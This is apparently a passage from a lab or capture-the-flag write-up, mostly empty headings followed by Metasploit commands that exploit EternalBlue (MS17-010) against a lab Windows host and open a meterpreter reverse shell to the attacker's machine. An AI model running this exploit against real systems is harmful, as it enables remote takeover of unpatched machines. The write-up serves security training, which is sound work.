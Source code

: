 #### TCP

#### UDP

#### Web Services

#### Other Services

#### Harvested Informations

#### Vuln Investigation

Blue eternal


##### Check for exploits

### Penetration

Metasploit  

![starting](images/Screenshot_2021-04-20_20-16-51.png)

```
search eternalblue  
use exploit/windows/smb/ms17_010_eternalblue  
options  

set RHOST 10.129.134.96 (victim's machine)
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.150 (kali's machine)
set LPORT 4444
exploit
sysinfo
getuid
```
